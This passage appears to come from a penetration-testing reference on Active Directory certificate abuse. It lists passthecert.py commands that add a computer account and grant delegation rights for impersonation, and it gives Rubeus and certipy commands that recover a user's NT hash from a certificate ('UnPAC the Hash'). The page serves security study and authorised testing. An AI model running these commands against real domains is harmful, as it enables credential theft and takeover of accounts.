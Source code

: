 ```bash
#Create a new computer account
python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain domain.local -dc-ip 10.0.0.1

#Add delegation rights
python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain domain.local -dc-ip 10.0.0.1 -port 389 -delegate-to <created_computer> -delegate-from TARGET$

#Impersonation is now possible
```

### UnPAC the Hash

When a TGT is requested with PKINIT, the **LM:NT hash** in added in the structure `PAC_CREDENTIAL_INFO` for futur use if Kerberos is not supported, and the PAC is ciphered with the krbtgt key. When a TGS is requested from the TGT, the same structure is added, but ciphered with the session key.

The structure can be unciphered if a TGS-REQ U2U is realised.

#### Windows

```powershell
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

#### Linux

```bash
# Authenticate and recover the NT hash
certipy auth -pfx 'user.pfx' -no-save
```

## References <a href="#bkmrk-references" id="bkmrk-references"></a>

* [SpecterOps](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs)
* [Certipy](https://github.com/ly4k/Certipy)
* [Certipy2.0 blog](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)
* [Certipy4.0 blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
* [Certify](https://github.com/GhostPack/Certify)
* [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)
* [HTTP418 Infosec](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks)
* [Snovvcrash](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
* [Weak ACLs](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
